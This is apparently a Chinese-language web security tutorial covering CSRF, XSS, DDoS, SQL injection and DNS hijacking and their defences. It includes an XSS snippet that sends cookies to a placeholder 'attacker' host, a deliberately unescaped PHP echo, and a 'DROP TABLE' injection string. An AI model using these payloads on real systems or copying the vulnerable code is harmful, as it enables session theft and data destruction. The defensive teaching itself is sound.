

### CSRF

1. 概念

CSRF(Cross Site Request Forgery,跨站请求伪造)攻击是一种依赖web浏览器的、被混淆过的代理人攻击，通过伪装来自受信任用户的请求来利用受信任的网站，造成个人隐私泄露及财产安全

2. 攻击原理


- step1: 客户端向网站A发起了通信请求
- step2: 网站A验证通过，并建立了通信连接，在客户端保存了A的cookie.
- step3: 客户端在未关闭与A的连接的情况下访问了网站B.
- step4: 网站B含有恶意请求代码，要求向网站A发起请求.
- step5：客户端根据B发起的请求并携带已保存的网站A的cookie访问网站A.
- step6: 网站A验证cookie并处理了这个请求.

于是，网站B就通过盗用保存在客户端的cookie，以客户端的身份来访问网站A，做一些诸如：发送信息，邮件，盗取账户，财产等违法操作。
上面说的是狭义的csrf，其实广义的csrf是指准确的猜测出你的请求参数，然后构造出一个合法的请求去进行curd，实际上不一定依赖于浏览器，但它的前提是要找到xss漏洞。

3. 如何防范

防范csrf的根本方法是有效辨别请求是否来源于正常的用户。可以通过 token 、 referer、 验证码 来判断：

1) token

token的原理是：使用存放在cookie或者前端某处的某个值，通过约定的方法加密成一串字符串，作为参数传递给后台，后台根据同样的算法加密，对比2个值是否相等。一般来说是在cookie里放一个token，由于同源策略，伪造者无法获取cookie里面的信息，所以即使知道了算法，也构造不出校验串。

- 在标签加入token：

```html
<meta content="_csrf" name="csrf-param">
<meta content="6eEHcEur-Q-CoC0eMc3GIRofusFMhD6fYr4Y" name="csrf-token">
```

- 在表单加入token:
```html
<input type="hidden" name="csrf_token" value="<? echo $token;?>">
```
2) referer

通过请求头中的referer字段判断请求的来源，但这种方式不太保险，因为referer有可能被伪造。

3) 验证码

在一些很敏感的curd操作中，可以做验证码校验。在现有技术下，破解一个验证码是有一定难度的，比如12306的地狱级验证码。但是考虑到用户体验，这种较为安全的校验方式需要合理地使用。

4）其他预防手段：
- 尽量不要在页面的链接中暴露用户隐私信息.
- 尽量使用post进行表单提交.
- 避免全站通用的cookie，严格设置cookie的域.

>现在业界内大多数的防csrf的方案都是token+referer。但token是在cookie没有被盗取的前提下才有安全性，而referer也并不难伪造，所以，即使做好了csrf，如果网站存在XSS漏洞，被攻击者盗用了cookie信息，那么，token+referer的防范手段将形同虚设。

### XSS

1. 概念：

跨站脚本攻击（XSS，Cross-site scripting）是最常见和基本的攻击Web网站的方法。攻击者可以在网页上发布包含攻击性代码的数据，当浏览者看到此网页时，特定的脚本就会以浏览者用户的身份和权限来执行。通过XSS可以比较容易地修改用户数据、窃取用户信息以及造成其它类型的攻击。

2. 攻击原理:

XSS的本质就是在用户的浏览器执行一段恶意的JS代码，其攻击方式大致可以分为3类，我们假设攻击代码是为了盗取我们的cookie信息：

```javascript
<script>
window.location='http://attacker/?cookie='+document.cookie;
</script>
```

而我们服务器和前端未做XSS防范，直接拿取链接中的参数，显示到页面：

```php
<?php

 echo ‘Hi,’ . $_GET[‘name’];

?>
```

1）反射型：
反射型是指恶意代码来自用户的请求。



反射型的xss需要诱使用户主动点击攻击者伪造的链接，发起请求，最终将恶意代码在浏览器运行。

2）存储型：
存储型是指恶意代码来自网站数据库，攻击者通过网站的输入途径，比如评论，将恶意代码存入数据库。然后其他用户访问这个页面，就会执行这段代码。从而收到攻击。


3) 本地和DOM 型
DOM XSS 是存储型 XSS 和 反射型 XSS 的变种。就是将攻击脚本注入到 DOM 结构里的攻击手法，在 DOM XSS 攻击中，一直到页面运行了 JavaScript，恶意字符串才被实际的解析。


随着 WEB 应用越来越高级，越来越多的 HTML 是在客户端通过 JavaScript 生成而不是在服务端生成。任何时候不刷新整个页面，需要更新内容，就必须通过 JavaScript 进行。值得注意的是，AJAX 请求后更新页面就是这样的例子。
也就是说，XSS 漏洞不仅可以出现在网站服务端代码，还可能出现在客户端 JavaScript 代码中。结果就是，即使服务端代码完全没问题，在页面加载完成后，客户端代码还是可能在 DOM 更新中不安全的包含了用户输入。一旦发生，客户端代码就存与服务端无关的 XSS 漏洞

3. 如何防御：

1）基本思路：
- 输入/输出的转义编码、过滤
- 白名单策略
2）具体手段：
XSS是有很多奇淫技巧的，防范手段也是见仁见智。这里我只说几种常见的防范方法：

- 对 `< , ' , " , / , >, &`字符的过滤

```javascript
function escapeHtml(string) {
    return string
        .replace(/&/g, '&amp;')
        .replace(/</g, '&lt;')
        .replace(/>/g, '&gt;')
        .replace(/"/g, '&quot;')
        .replace(/'/g, '&#039;')
        .replace(/\//g, '&#x2f')
}
```

- 实体化转义和反转义

```javascript
function htmlEncode(html) {
    var sub = document.createElement('div');
    sub.textContent != null ? sub.textContent = html : sub.innerText = html;
    var output = sub.innerHTML;
    sub = null;
    return output;
}

function htmlDecode(text) {
    var sub = document.createElement('div');
    sub.innerHTML = text;
    var output = sub.textContent || sub.innerText;
    sub = null;
    return output;
}
```

- 输入校验、过滤

输入的信息一般都需要符合一定的规范，比如说字符类型，字符长度等，可以在入库或者提交之前对输入信息进行校验和过滤。这里的方法就太多了，具体业务具体分析

- CSP 安全策略

CSP 用来限制浏览器 viewing your page 保证其只能使用从可信任的源下载的资源。资源可以是脚本、样式表、图片或是页面引用的其它类型文件。也就是说，即使攻击者成功在网站中注入了恶意代码，CSP 可以防止其被执行

CSP 可以用来强制实施下面的规则：

- No untrusted sources：外部资源只能从一个明确定义的可信源集合中加载
- No inline resources：不执行行内（inline） JavaScript 和 CSS
- No eval：不可以使用 JavaScript 函数 eval

如何启用？

默认情况下，浏览器不强制使用 CSP。为了给网站开启 CSP，响应中要带上额外的 HTTP 头：Content-Security-Policy。如果浏览器支持 CSP，那么所有带有这一 HTTP 头的页面都会遵守 CSP。

### DDOS
1. 概念：

DDOS(分布式拒绝服务)是以通过某种手段，致使网站的某个环节崩溃或者瘫痪，从而使网站无法正常运行为目的的一些攻击手段的总称。比较常见的就是通过一些“肉鸡”无间断的大量发送请求，使目标服务器超出负荷，从而崩溃瘫痪。

2. 一些防范手段：

1）对恶意请求的拦截：
我们可以使用一些策略，对一些明显的恶意请求进行拦截：

- 硬件防火墙：Web 服务器的前面可以架设硬件防火墙，过滤请求，但是成本较高
- 本机防火墙：如linux的iptables
- web服务器过滤： apache和nginx 都能够过滤一些请求

但是这种过滤的前提是ddos 的攻击有一定的规律可循，但是一般来说，高级的ddos往往是伪装成一个合法的请求，难以识别。

2）带宽扩容：
最有效的方法就是，有足够的带宽去应对这些ddos请求，但是这样的成本较高。目前大多数服务器运营商都提供了防ddos的方案，其原理是，平时会有大量的冗余带宽待命，遭到攻击时就将请求分流到冗余带宽，使服务器不至于崩溃。

3）CDN：
cdn 能有效的保证请求的稳定性，因为请求并不是直接请求服务器，而是现在cdn里找，找不到再由cdn去源服务器上找。另一方面，cdn的服务器不止一台，能有效的做分流。

4）网站备份：
在遭受攻击后，如果之前备份了网站，那可以先使用备份网站，不至于整个业务停止。

### SQL注入

1. 简介

Sql 注入攻击是通过将恶意的 Sql 查询或添加语句插入到应用的输入参数中，再在后台 Sql 服务器上解析执行进行的攻击，它目前黑客对数据库进行攻击的最常用手段之一。

带来的危害：

- 猜解后台数据库，盗取网站的敏感信息。
- 绕过认证，列如绕过验证登录网站后台。
- 注入可以借助数据库的存储过程进行提权等操作

2. 攻击原理

假设有个链接请求是这样的：
`www.a.com/query?userId=123`

功能是查询userId为123的用户出来，这个请求到我们服务端最后 sql语句是这样：

`select * from users where userid=123`

那如果我们没对用户输入做校验，用户输入了一个这样的字符串

`123; DROP TABLE users;`

那我们最后执行的 sql 就变成了

`select * from users where userid=123; DROP TABLE users;`

从上面的例子，我们可以看出sql的攻击原理，其本质就是通过构建特殊的输入作为参数传入Web应用程序，而这些输入大都是SQL语法里的一些组合，通过执行SQL语句进而执行攻击者所要的操作，其主要原因是程序没有细致地过滤用户输入的数据，致使非法数据侵入系统。

3. 如何防护：

最重要的一个原则就是：永远不要相信外来的输入！
具体可以这么做：

- 对输入的数据做校验，过滤，转义。
- 避免动态拼接sql语句。
- 不要把机密信息直接存放，加密或者hash掉密码和敏感的信息
- 应用的异常信息应该给出尽可能少的提示，最好使用自定义的错误信息对原始错误信息进行包装
- 采取辅助软件或网站平台来检测SQL，如：jsky，MDCSOFT SCAN等

### DNS劫持

1. 什么是DNS劫持？
2. 
DNS劫持就是通过劫持了DNS服务器，通过某些手段取得某域名的解析记录控制权，进而修改此域名的解析结果，导致对该域名的访问由原IP地址转入到修改后的指定IP，其结果就是对特定的网址不能访问或访问的是假网址，从而实现窃取资料或者破坏原有正常服务的目的。

2. 攻击原理：

1) DNS解析过程：


- step1:客户机输入域名(以百度为例):www.baidu.com ，系统会先检查自己的本地hosts文件中是否有这个网址映射关系，若有进入step2，若无，则查找本地DNS解析器缓存，有则进入step2，无则进入step3。
- step2: 缓存或hosts文件返回IP地址映射关系，并完成域名解析.
- step3：查询本地服务器，若查询的域名在本地区域资源中（具有权威性）或区域服务器中有该域名缓存（不具权威性），则进入- step10，否则进入step4.
- step4：本地DNS服务器向13台根DNS服务器发起请求
- step5：根服务器判断域名(.com)属于哪台GTLD服务器管理，并返回GTLD服务器IP
- step6：本地DNS服务器向GTLD服务器发起请求.
- step7：(.com)GTLD服务器返回域名(www.baidu.com)的主机IP给本地DNS服务器.
- step8: 本地DNS服务器像(www.baidu.com)目的主机发送请求.
- step9: 目的主机(www.baidu.com)返回主机IP给本地DNS服务器.
- step10: 本地DNS服务器返回目的主机IP给客户机，完成解析.


2）DNS劫持


是不是发现了？你访问的网址会失去响应或者跳到别的恶意网站，是不是会怀疑自己访问的是个假网址？哈哈..

DNS劫持一方面可能影响用户的正常体验，用户被引到假冒的网站进而无法正常浏览网页。用户量较大的网站域名被劫持后恶劣影响会不断扩大，用户可能被诱骗到冒牌网站进行登录等操作导致泄露隐私数据.

3. 如何防御:

1） 在被劫持后：
- 修改域名服务商和邮箱密码，定期更换复杂度高的密码.
- 删除无用的DNS解析,恢复DNS设置，关闭域名的泛解析.
- 排查网站代码，清除垃圾页面.
- 收集非法添加的页面并设置404,使用百度站长工具提交死链.
- 若使用的是第三方DNS服务，则立即修改第三方DNS服务端账户密码，锁定账户信息,开启邮件或短信提醒.
更换服务商.

2） 如何预防：

- 为域名注册商和注册用邮箱设置复杂密码且经常更换.
- 将域名更新设置为锁定状态，不允许通过DNS服务商网站修改记录，使用此方法后，需要做域名解析都要通过服务商来完成，时效性较差。
- 定期检查域名帐户信息、域名whois信息，査看事件管理器，清理Web网点中存在的可疑文件.
- 加强网站的防SQL注入功能，SQL注入是利用SQL语句的特点向数据库写内容，从而获取到权限的方法.
- 设置Web站点文件夹及文件操作权限.
- 利用事务签名对区域传送和区域更新进行数字签名.
- 删除运行在DNS服务器上的不必要服务.
- 在网络外围和DNS服务器上使用防火墙服务.

